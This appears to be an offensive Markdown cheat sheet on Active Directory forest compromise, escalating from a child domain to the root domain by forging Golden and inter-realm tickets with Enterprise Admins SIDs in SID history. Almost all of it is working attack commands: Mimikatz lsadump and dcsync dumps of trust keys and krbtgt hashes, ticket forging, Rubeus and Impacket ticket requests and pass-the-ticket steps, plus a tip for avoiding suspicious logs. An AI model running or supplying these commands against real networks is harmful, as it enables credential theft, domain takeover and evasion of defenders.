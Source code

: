# Child Domain to Parent Domain - Forest Compromise - extra SIDs (parent/child) (child/parent)

Escalate from a child domain to the root domain of the forest by forging a Golden Ticket with the SID of the Enterprise Admins group in the SID history field.

## With the trust key

### 1) Get the trust key, look at the [in] value in the result

    Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc

OR

    Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\parentDomain$"'

### 2) Forge the referral ticket

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<current_domain_SID> /sids:<enterprise_admins_SID>-<RID> /rc4:<key> /service:krbtgt /target:parentDomain.local /ticket:trust.kirbi"'

### 3) Request an ST with the previous TGT and access service

#New tools for more fun

    .\asktgs.exe trust.kirbi CIFS/dc.parentDomain.local
    .\kirbikator.exe lsa .\CIFS.dc.parentDomain.local.kirbi
    ls \\dc.parentDomain.local\c$

##### Or classically
    
    .\Rubeus.exe asktgs /ticket:trust.kirbi /service:cifs/dc.parentDomain.local /dc:dc.parentDomain.local /ptt
    ls \\dc.parentDomain.local\c$

## With the krbtgt hash

Exactly the same attack, but with the krbtgt hash that can be extracted like this :

    Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

To avoid some suspicious logs, use multiple values can be added in SID History :

    Invoke-Mimikatz -Command '"kerberos::golden /user:dc$ /domain:domain.local /sid:<current_domain_SID> /groups:516 /sids:<parent_domain_SID>-516,S-1-5-9 /krbtgt:<krbtgt_hash> /ptt"'
    Invoke-Mimikatz -Command '"lsadump::dcsync /user:parentDomain\Administrator /domain:parentDomain.local"'


#### 1) Golden Ticket

    Get-DomainSID -Domain DOMAIN (Powerview)

    Get-DomainSID -Domain TARGET_DOMAIN (Powerview)

    mimikatz lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt

    mimikatz kerberos::golden /user:Administrator /krbtgt:KRBTGT_HASH /domain:DOMAIN /sid:USER_SID /sids:ROOT_DOMAIN_SID-519 /ptt

## OR

    lookupsid.py -domain-sids DOMAIN/USER:'PASSWORD'@DC_IP 0

    ticketer.py -nthash CHILD_KRBTGT_HASH -domain-sid CHILD_SID -domain CHILD_DOMAIN -extra-sid PARENT_DOMAIN_SID-519 goldenuser

## OR

    raiseChild.py DOMAIN/USER:'PASSWORD'

#### 2) inter_realm_ticket TRUST (parent/child) (child/parent)

    mimikatz lsadump::trust /patch

    mimikatz kerberos::golden /user:Administrator /domain:DOMAIN /sid:DOMAIN_SID /aes256:TRUST_KEY_AES256 /sids:TARGET_DOMAIN_SID-519 /service:krbtgt /target:TARGET_DOMAIN /ptt

## OR

    ticketer.py -nthash TRUST_KEY -domain-sid CHILD_SID -domain CHILD_DOMAIN -extra-sid PARENT_DOAMIN_SID-519 -spn krbtgt/PARENT_DOMAIN goldenuser

    getST.py -k -no-pass -spn cifs/DC_FQDN PARENT_DOMAIN/trustfakeuser@PARENT_DOMAIN -debug

### With these attacks, we perform Pass-the-Ticket
